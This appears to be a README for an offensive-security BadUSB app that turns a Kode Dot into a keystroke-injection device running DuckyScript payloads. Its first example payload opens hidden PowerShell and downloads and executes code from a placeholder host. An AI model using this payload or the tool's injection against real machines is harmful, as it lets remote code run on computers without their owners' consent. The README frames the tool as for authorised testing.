


# Dot BadUSB

A Kode Dot app that turns the Dot into a USB keyboard and plays **payloads** into whatever PC it is plugged into. It speaks **DuckyScript** — the Rubber Ducky / EvilCrow / Flipper language — so payloads written for those tools run on the Dot unchanged, and it keeps the Dot's own short **profile** language for BIOS and boot-menu work. You can **arm** a payload so it fires the moment a PC takes the keyboard, and run one PC after another in batch.

The Dot is the HID itself: the ESP32-P4's full-speed USB OTG enumerates as a boot-protocol keyboard, on the dock pads (default) or the USB-C socket. No cable, no second board.

Payloads are plain text files on the Dot's microSD card. Edit them in a browser over Wi-Fi with a live error check, on the Dot's glass, or in any text editor.





> The two diagrams above are the design, not device screenshots — the app has not yet run on a real Dot (see [What is tested](#what-is-tested)).

> **Authorised use only.** This is an offensive-security tool. Use it on machines you own or are explicitly contracted to test. HID keystroke injection is a crime against systems you have no permission to touch. No telemetry, no detection evasion, no persistence is built in, and none will be accepted.

> **Not tested on a real Kode Dot.** Built with ESP-IDF v6.1 and kode-sdk v0.1.1. The DuckyScript and profile engines pass host tests (under ASan and UBSan); the on-device app has run only in the kode-sim emulator in its BIOS-helper form. See [What is tested](#what-is-tested).

Dot BadUSB is an independent app. Kode did not make it and does not endorse it. It began as a fork of Dot BIOS Helper.

## DuckyScript

Write, or drop in, a `.txt` payload in DuckyScript:

```text
REM Windows: open a hidden PowerShell
DEFAULTDELAY 50
DELAY 1000
GUI r
DELAY 500
STRINGLN powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://host/x')"
```

The Dot detects DuckyScript and translates it to its keyboard player on load; the file on the card stays DuckyScript. This is the point the critique (`#PR10` / Discord) was making: this *is* OS-command injection, not just "tap F12".

### What is translated

Hak5 DuckyScript 1.0 and the common 2.0 subset:

| DuckyScript | Does |
|---|---|
| `REM <text>` | Comment. `REM_BLOCK` ... `END_REM` for a block. |
| `STRING <text>` | Type text (US layout). Long lines are split automatically. |
| `STRINGLN <text>` | Type text, then ENTER. |
| `STRING_BLOCK` ... `END_STRING` | Type each row; a newline after each. |
| `STRINGLN_BLOCK` ... `END_STRINGLN` | Same, each row ends with ENTER. |
| `DELAY <ms>` | Pause. |
| `DEFAULTDELAY` / `DEFAULT_DELAY <ms>` | Delay between keys (mapped to the player's `gap`). |
| `DEFAULT_CHAR_DELAY` / `CHARDELAY <ms>` | Same. |
| `REPEAT <n>` | Run the previous line `n` more times. |
| key lines | `GUI r`, `ENTER`, `CTRL ALT DELETE`, `CTRL-ALT-DEL`, `TAB`, `UP` ... one keystroke with modifiers. |

Key names are mapped to the player's: `GUI`/`WINDOWS`/`COMMAND` → `WIN`, `CONTROL` → `CTRL`, `DELETE` → `DEL`, `ESCAPE` → `ESC`, `DOWNARROW` → `DOWN`, and so on.

**Limits.** A line that cannot be translated is kept as a `# [ducky] ...` comment and flagged, never run silently. Leading spaces on a `STRING` line are dropped — use `STRING_BLOCK` for indented text (e.g. Python). Unsupported DuckyScript 2.0 features (`VAR`, `IF`, `WHILE`, `FUNCTION`, `HOLD`/`RELEASE`, `LED*`, `ATTACKMODE`, `$_` variables) are commented out and flagged. A payload is capped at 64 keyboard commands after translation.

## Profiles (the Dot's own language)

For BIOS and boot-menu work the short profile language is still there and is often tighter than DuckyScript — it has `spam` (tap a key while a PC boots), `arm plug`, `after rearm` (batch), `code`/`input` keypads and `$name` variables. A file beginning with `title`/`arm`/`spam`/`keys` is read as a profile; one beginning with `STRING`/`GUI`/`DELAY`/`REM` is read as DuckyScript.

```text
title HP t550: Secure Boot off
arm plug          # start when a PC takes the keyboard
spam F10 10       # tap F10 for 10 s after the PC starts listening
wait 2000
keys RIGHT RIGHT UP ENTER F10 RIGHT F10 F10 ENTER ENTER
spam F9 10
```

See the command tables in `main/script.h`. Commands: `spam`, `keys`, `hold`, `type`/`line`, `wait`, `waitpc`, `ask`, `msg`, `code`, `input`, `set`, `repeat`/`end`, `gap`/`tap`, `beep`. Keys: `ENTER ESC TAB SPACE BKSP DEL INSERT HOME END PGUP PGDN UP DOWN LEFT RIGHT F1`-`F24 PRTSC PAUSE MENU CAPSLOCK NUMLOCK KP0`-`KP9`, any character, and `CTRL ALT SHIFT WIN` combinations.

## Using it

1. Start **BadUSB** from Apps.
2. Choose a payload with the pad (up/down) or by tapping it.
3. Press **Start** (or **Arm**, for a plug payload), or press TOP.
4. Connect the Dot to the PC — dock pads with a magnetic cable (default), or USB-C (Settings → USB port; swaps the P4 PHYs, the console leaves the cable until a reset).
5. A **plug** payload waits, shown as ARMED, until a PC takes the keyboard, then runs.

The web editor is at `http://<dot>` when the Dot is on Wi-Fi. It has **no login**: anyone on the network can open it. Switch it off under Settings on networks you do not trust.

## Safety

- A payload **never** starts just because the app opens. It starts only after Start or Arm. Opening the app while plugged into your own PC types nothing.
- An armed plug payload does not fire into a PC that already holds the keyboard when you arm; it waits for that PC to go first.
- An armed payload disarms itself after `timeout` minutes (default 30).
- Stop and Disarm are always on the glass and in the editor.

## What is tested

| Part | Status |
|---|---|
| DuckyScript translator and the whole pipeline — translate → parse → player → a fake PC types the right bytes (`test/ducky_test.c`, 12 tests) | Host, under ASan and UBSan |
| Profile language: parser, player, arming, batch, keypad, variables, loops (`test/script_test.c`, 16 tests) | Host, under ASan and UBSan |
| Build for the ESP32-P4 with ESP-IDF v6.1 | Inherited from Dot BIOS Helper |
| kode-sim end to end in the BIOS-helper form | Inherited |

**Not yet tested:** the DuckyScript load path on a real Dot or in the emulator (the three `sc_parse` call sites now route through `ducky_parse`, reviewed but not run on device); real OS payloads against a real PC; the USB-C PHY swap on a board.

## Building

ESP-IDF **v6.1**. The first build fetches kode-sdk v0.1.1 and TinyUSB.

```bash
idf.py build
```

The image is `build/dot_badusb.bin`.

Host tests:

```bash
cd test
cc -std=c11 -Wall -Wextra -I../main ducky_test.c ../main/ducky.c ../main/script.c ../main/keys.c -o ducky_test && ./ducky_test
cc -std=c11 -Wall -Wextra -I../main script_test.c ../main/script.c ../main/keys.c ../main/builtin.c -o script_test && ./script_test
```

## Installing

With `kcli.py` from a clone of the KodeOS repository:

```bash
python KodeOS/tools/kcli.py -p PORT install build/dot_badusb.bin
```

## How it works

- `ducky.c`: DuckyScript → profile text. Pure C; `ducky_parse()` detects the language and feeds the player, so the whole proven engine is reused. The card file stays in whatever language you wrote.
- `script.c`: the profile language — parser and player. Talks to the keyboard through four calls, so the host test drives it with a fake PC.
- `hidkb.c`: TinyUSB, one boot-protocol HID keyboard on the P4's full-speed OTG.
- `app.c`: the Active Object — ticks the player, draws the glass (`ui.c`), reads/writes the card, takes the editor's commands.
- `web.c` with `web/index.html`: the editor.

## Licence

GPL-3.0-or-later, like the kode-sdk it links: see `LICENSE`. Fonts are Outfit and Terminus (SIL OFL 1.1). Kode, Kode Dot and kodeOS are trademarks of Kode; this app uses them only to say what it runs on.
